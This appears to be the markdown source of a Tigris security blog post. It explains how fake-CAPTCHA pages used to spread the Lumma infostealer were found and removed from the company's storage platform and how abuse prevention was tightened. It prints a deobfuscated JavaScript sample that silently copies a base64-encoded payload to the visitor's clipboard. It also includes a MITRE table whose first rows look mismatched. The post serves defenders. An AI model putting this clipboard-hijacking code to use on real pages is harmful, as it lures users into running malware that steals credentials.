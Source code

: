 ```yaml
---
slug: fake-captchas
title: "Fake CAPTCHAs and Malvertising"
description: >
  Tigris detected fake CAPTCHAs on our platform. Here's what we did to remove them and stay a step ahead of attackers.
image: ./tiger-in-soc.webp
keywords: [object storage, blob storage, s3, abuse, security]
authors: [ot]
tags: [abuse, security]
---
```




Tigris is a globally distributed, multi-cloud object storage service with built-in support for the S3 API. As Tigris has grown this year, we’ve noticed an uptick in abuse of our platform. A natural side effect of growth in usage is growth in misusage.

Earlier this year, security researchers discovered a [“DeceptionAds” campaign](https://www.infostealers.com/article/deceptionads-fake-captcha-driving-infostealer-infections-and-a-glimpse-to-the-dark-side-of-internet-advertising/) running on several trusted services. Attackers used fake CAPTCHAs that instruct users to perform actions such as pressing "Windows + R," pasting a command, and hitting "Enter." This sequence executes a PowerShell command that installs the Lumma info-stealer malware, compromising personal data including credentials and financial information. The attackers hosted fake CAPTCHAs on Bunny CDN, a legitimate CDN provider, and used BeMob, an ad tracking service, to cloak malicious URLs. Hiding behind trusted infrastructure allowed the attackers to circumvent moderation and other security checks.

![Ty the tiger monitoring alerts in a security operations center](./tiger-in-soc.webp)

{/* truncate */}

Tigris detected a similar pattern with fake CAPTCHAs on our platform back in February of this year. Common threat intelligence monitoring services flagged content hosted on Tigris as malicious and published a list of URLs that included Tigris domains. We ran additional scans and contacted third party services for more information as to the malicious content they had detected. As a result, we removed the content and banned users that were uploading malicious content.

Let’s go through how we detected the scheme, what we did to stop it, and the systems we hardened to prevent it from happening again.

## Scaling Response & Prevention

With petabytes of data entering the platform, we have to be efficient with scanning content. It’s not trivial: a suboptimal solution could eclipse the cost of storage by magnitudes. Not every object can be scanned on write, so modern platforms rely on a multi-layered approach to manage risk that includes:
- Accepting abuse reports & acting on them
- Working with security vendors including researchers for fast response and prevention
- Reasonable scanning & prevention
- Enforcing identity verification for all users, including MFA

Not every file uploaded to the platform can reasonably be scanned, so it’s helpful to think about the larger patterns around abuse. Mainly, the bad actors with many disposable emails and VPNs who recreate accounts and repost the same malicious content. Requiring email verification and multifactor authentication reduces the creation of these accounts dramatically. By leveraging our partners’ reliability systems and incorporating their user reputation score into our considerations, we are able to prevent recurrence and ban users from the platform entirely. 

For users with a lower reputation score who upload content of a commonly exploitable type, we flag their content for scanning in common security tooling.

We also partnered with the vendors and security researchers maintaining commonly used Denylists and repositories of malware used in scanning. We partnered with these vendors to ensure our monitoring caught the same issues they detected so that we can act quickly in response to reports.

And, of course, our Terms of Service do not allow malicious content nor abuse. We also maintain an `abuse@` email for reports and added links to our website for reporting abusive usage.

## Types of Malicious Content 

At Tigris, these are the most common types of malicious content we have detected:

|                                             |                                                                                                                |                                                                                        |
| ------------------------------------------- | -------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------- |
| Activity                                    | MITRE ATT\&CK ID & Technique                                                                                   | Description                                                                            |
| User Executes Initial PowerShell Code       | T1566 – Phishing                                                                                               | The attack began with a phishing lure using a fake reCAPTCHA page to deceive the user. |
| Phishing via Fake CAPTCHA Page              | T1204 – User ExecutionT1059.001 – Command and Scripting Interpreter: PowerShell                                | The user was tricked into executing an initial PowerShell script.                      |
| Payload Download via mshta.exe              | T1218.005 – System Binary Proxy Execution: MshtaT1027.009 – Obfuscated Files or Information: Embedded Payloads | The script used mshta.exe to fetch a hidden script containing the payload.             |
| Obfuscated Payload Execution via PowerShell | T1059.001 – PowerShellT1027.013 – Obfuscated Files or Information: Encrypted/Encoded File                      | The payload was encrypted and executed through PowerShell.                             |
| Information Collection Activities           | T1217 – Browser Information DiscoveryT1083 – File and Directory Discovery                                      | The stealer gathered system, browser, and file information.                            |
| Data Exfiltration over C2 Channel           | T1041 – Exfiltration Over C2 Channel                                                                           | The collected data was exfiltrated through a remote C2 channel.                        |

### Example Walkthrough - Fake CAPTCHA

#### Findings

A Lumma Stealer campaign uses fake CAPTCHAs, malvertising, and new evasion techniques to target Windows users globally. The infection chain includes clipboard-based commands run via Windows Run, bypassing browser defenses.

![A fake reCAPTCHA detected by Virus Total and removed from a Tigris bucket](./captcha-sample.png)

<center>
  <small>
    <em>A fake reCAPTCHA detected by Virus Total and removed from a Tigris bucket</em>
  </small>
</center>

#### Sample

![HTML containing an obfuscated Javascript function](./html-sample.png)
<center>
  <small>
    <em>HTML containing an obfuscated Javascript function</em>
  </small>
</center>
{/* truncate */}


This HTML contains an obfuscated Javascript function that looks like this (long code block collapsed):

<details>
  <summary>Long code block with obfuscated JavaScript function</summary>
  <CodeBlock language="js">{markdownChunk}</CodeBlock>
</details>

This function translates roughly to the code below:

<CodeBlock language="js">
{`(function () {
  var encodedText = "R0cHM6Ly8ybm8uY28vMlpXNno2";
  var buttonId = "kkk";
  var classNameToAdd = "show";

  function decodeBase64(str) {
    return decodeURIComponent(escape(window.atob(str)));
  }

  document.getElementById(buttonId).onclick = function () {
    var textarea = document.createElement("text" + "area");
    textarea.value = decodeBase64(encodedText);
    document.body.appendChild(textarea);
    textarea.select();
    document.execCommand("copy");
    document.body.removeChild(textarea);
    document.getElementById("i").classList.add(classNameToAdd);
    document.getElementById("k").classList.add(classNameToAdd);
    document.getElementById("ent").removeChild(textarea);
  };
})();`}
</CodeBlock>


The key steps of this function are:
- Decodes a base64 string containing a likely payload (e.g., a malicious link)
- Auto-copies it to the user's clipboard using a hidden <textarea>.
- Modifies the DOM to show or hide elements using class changes (show class).
- Triggers on click of an element with ID kkk.
- Tricking users into running commands manually or auto-pasting payloads.

#### Obfuscated Payload Execution via PowerShell

Below HTML code is the original source (long code block collapsed):

<details>
  <summary>Long code block with obfuscated JavaScript function</summary>
  <CodeBlock language="js">{markdownChunk2}</CodeBlock>

<InlineCta
  title={"Infinite storage for your embeddings"}
  subtitle={
    "Tigris is object storage that gives you bottomless storage for whatever you want, including your vector embeddings, images, or secret plans to achieve total world domination! Not to mention the seamless global architecture. Give it a try today!"
  }
  button={"Get started today!"}
/>
